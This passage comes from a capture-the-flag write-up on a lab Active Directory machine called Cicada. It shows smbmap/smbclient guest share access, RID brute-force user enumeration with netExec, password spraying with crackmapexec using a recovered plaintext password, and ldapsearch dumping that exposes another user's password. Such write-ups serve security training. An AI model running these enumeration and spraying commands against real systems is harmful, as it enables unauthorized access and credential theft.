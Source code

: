 As we can see in the image, we have access to the **HR** and **IPC$** directories.

## Explotation

If we list the content of HR we will see a text document that looks like a welcome message to a new employee, although we don't know who it is.

```sh
smbmap -H 10.10.11.35 -U 'guest' -r HR
```
![2Pic]({{ '/assets/img/cicada/4.png' | relative_url }}){: .center-image }

```sh
smbclient \\\\10.10.11.35\\HR -U 'guest'
```

![2Pic]({{ '/assets/img/cicada/5pic.png' | relative_url }}){: .center-image }

In this file we find a plain text password, so now we are interested in finding usernames. As the ldap service is open we can try to use ldapsearch to dump information from the domain, but this will display an error.

Another tool we can try to enumerate users is [netExec](https://github.com/Pennyw0rth/NetExec) which has an option called **rid brute force**, that allow us to try different RIDs to detect valid users.

```sh
nxc smb 10.10.11.35 -u 'Guest' -p '' --rid-brute --ignore-pw-decoding >> nxc_output.txt
```

The format in which the output is stored will be more useful if we filter it and store the names directly.

```sh
cat nxc_output.txt | awk '{print $6}' | tr '\' ' ' | awk '{print $2}' | sort -u >> names.txt
```

Now that we have users and a password, we can try tools like hydra or crackmapexec to find the owner of the password.

```sh
crackmapexec smb 10.10.11.35 -u names.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```
![2Pic]({{ '/assets/img/cicada/6pic.png' | relative_url }}){: .center-image }

As we can see, the password belongs to the user michael.wrightson, but if we try to see if we can connect to the machine through winrm, crackmapexec will show us that the user is not allowed.
Another thing we can try is, having valid credentials, to run again ldapsearch.
```sh
ldapsearch -x -H ldap://10.10.11.35 -D 'cicada\michael.wrightson' -w 'Cicada$M6Corpb*@Lp#nZp!8' -b "DC=cicada,DC=htb"
```

In this huge output, we can search for "password" and we will find the description of David Orelious with his password noted.

![2Pic]({{ '/assets/img/cicada/7pic.png' | relative_url }}){: .center-image }
